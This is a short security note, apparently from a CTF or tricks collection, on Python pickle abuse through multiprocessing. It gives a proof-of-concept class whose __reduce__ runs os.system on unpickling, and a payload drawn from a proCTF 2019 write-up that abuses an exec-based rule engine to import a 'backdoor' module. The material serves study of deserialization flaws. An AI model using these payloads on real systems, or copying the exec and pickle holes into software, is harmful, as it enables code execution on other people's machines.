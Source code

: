 # Multiprocessing
Multiprocessing uses pickle because it's the best way to communicate between processes in a fast way.

## Example 1

```py
import multiprocessing


def f(x):
    return x

class test:
    def __reduce__(x):
        import os
        return (os.system, ("ls",))


if __name__ == "__main__":
    multiprocessing.Process(target=f, args=(test(),)).start()
```

## Example 2 (https://github.com/HITB-CyberWeek/proctf-2019/blob/master/writeups/fraud_detector/fraud_detector.md)

```py
import ast
import multiprocessing
import concurrent.futures

def run_rule(rule, user):
    globs = __builtins__.copy()
    globs.update({
        "user": user,
        "fraud_prob": 0
    })

    ast_rule = ast.parse(rule)

    code = compile(ast_rule, filename="rule.py", mode="exec")
    exec(code, globs)
    fraud_prob = globs["fraud_prob"]

    return fraud_prob


def run_rules(rules, user):
    return [run_rule(rule, user) for rule in rules]


def run_rules_safe(rules, user):
    executor = concurrent.futures.ProcessPoolExecutor(max_workers=1)
    future = executor.submit(run_rules, rules, user)
    return future.result(timeout=2.0)


# Here 'backdoor.py' will be imported
if __name__ == "__main__":
    run_rules_safe([""" 
__name__ = "backdoor" # data.users.test -> importing data/users/test.py
fraud_prob = type("A", (), {"__gt__": lambda s, o: True, "__lt__": lambda s, o: True})()
"""], "test")

```